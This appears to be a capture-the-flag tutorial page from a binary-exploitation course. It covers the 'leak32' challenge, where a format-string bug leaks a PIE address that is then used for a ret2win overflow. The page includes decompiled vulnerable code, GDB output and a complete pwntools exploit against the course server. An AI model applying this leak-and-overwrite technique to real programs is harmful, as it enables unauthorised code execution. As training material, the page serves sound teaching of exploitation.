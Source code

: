 ```yaml
---
description: Using a format string to leak an address.
---
```


# leak32

{% file src="../../.gitbook/assets/leak32.zip" %}

In this case, we won't be provided a leak. Instead, we must combine how we used format strings and find our own leak. Solving this challenge will be remarkably similar to how we solve canary challenges, so be sure you're confident in Sections 0x3 and 0x4 before moving on.

### Static Analysis

PIE is indeed enabled, and there is no canary:

```nasm
$ checksec ./leak32
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/leak32/src/leak32'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We'll move straight to the `read_in` function. You can verify that `main` and `win` haven't changed. This code is actually the same as one of the canary challenges, replacing the canary with PIE. We'll see that it doesn't change our exploit that much.

Here is the source code for `read_in`. This was collected straight from `gdb`, so please ensure you're confident doing this.

```c
void read_in()
{
    puts("What's your name?");
    gets(ebp-0x30);
    
    printf("Nice to meet you ");
    printf(ebp-0x30);
    putchar(0xa);   // newline
    
    printf("What's your message?");
    gets(ebp-0x30);
    
    return;
}
```

We'll use a format string against the first input. Let's test what happens when we do that to see what addresses get printed. In this case, because we are looking for addresses, we use `%p` instead of `%x`:

```nasm
$ ./leak32
What's your name?
%p %p %p %p %p %p %p %p
Nice to meet you (nil) 0x1000000 0x566301f9 0xf7ee2540 (nil) 0x25207025 0x70252070 0x20702520
What's your message?
```

The only item here that looks like an address is `0x566301f9`. `0xf7ee2540` a far away instruction or a stack address, so it's not as helpful. We'll check both just to be sure our intuition is correct.

{% hint style="warning" %}
When using breakpoints on a binary with PIE enabled, they **must** be an offset from a known function. Addressing based on what you see in `disas read_in` won't work. Use something like `disas *(read_in+8)`.
{% endhint %}

Also, we can't check _those_ specific addresses because PIE is enabled. We need to check the addresses shown on each specific run. To do this, put a breakpoint at the vulnerable `printf` call and check the stack.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/10wx $esp
0xffffd580:	0xffffd598	0x00000000	0x01000000	0x565561f9
0xffffd590:	0xf7fc4540	0x00000000	0x25207025	0x70252070
0xffffd5a0:	0x20702520	0x25207025
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

The first address is the address of the format string. We start counting from the second item (which reads `(nil)` in the standard output). We want the third and fourth options, which also have the same high bytes.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/wx 0x565561f9
0x565561f9 <read_in+12>:	0x2dc7c381
gef➤  x/wx 0xf7fc4540
0xf7fc4540 <__kernel_vsyscall>:	0x89555251
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

Aha! The third value resolves to `read_in + 12`, which happens to be the base pointer for `read_in`. The fourth value resolves to `__kernel_vsyscall`, which is a function in the kernel. The first one is more useful, so we use that.

### Exploitation

We'll use a very similar exploit to the previous binary, just accounting for how we will receive the leak.

We'll start by establishing the binary and process:

```python
elf = context.binary = ELF('./leak32')
p = remote('vunrotc.cole-ellis.com', 7200)
```

Then, we need to receive the leak. We'll receive the third format string parameter, which we know is at `read_in + 12`. From there, we'll compute `elf.address`:

```python
p.sendline(b'%3$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.read_in + 12)
```

Now, we can build the payload. It's a simple ret2win from here!

```python
payload = b'A' * 0x34
payload += p32(elf.sym.win)
```

Finally, we send the payload.

```python
p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```

This gets us the flag! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./leak32')
p = remote('vunrotc.cole-ellis.com', 7200)

p.recvline()

p.sendline(b'%3$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.read_in + 12)

payload = b'A' * 0x34
payload += p32(elf.sym.win)

p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```
{% endcode %}